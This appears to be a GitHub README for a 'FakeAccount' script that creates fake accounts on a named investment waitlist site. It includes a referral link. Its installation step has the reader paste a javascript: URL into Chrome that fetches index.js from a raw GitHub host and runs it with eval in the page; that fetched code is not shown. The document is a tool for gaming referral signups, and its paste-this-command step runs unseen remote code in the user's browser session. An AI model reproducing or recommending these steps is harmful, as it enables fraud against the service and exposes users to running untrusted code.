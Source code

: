 # FakeAccount
Dear Programmer; When i wrote this code , only god and i knew how it worked; Now only god knows it. This Script is used to create an fake account on https://waitlist.stackedinvest.com

# installation

# 1 - Open website address : 

```
https://waitlist.stackedinvest.com/invest?kid=2BGR4H
```

```
2 - Type and enter this on chrome where you put website address => javascript:fetch("https://raw.githubusercontent.com/SingleDevX/FakeAccount/main/index.js").then(b=>b.text()).then((b)=>(alert("injected"),b)).then(b=>eval(b)).catch(e=>alert("error"+e))
```

```
3 - Enjoy it ;)
```
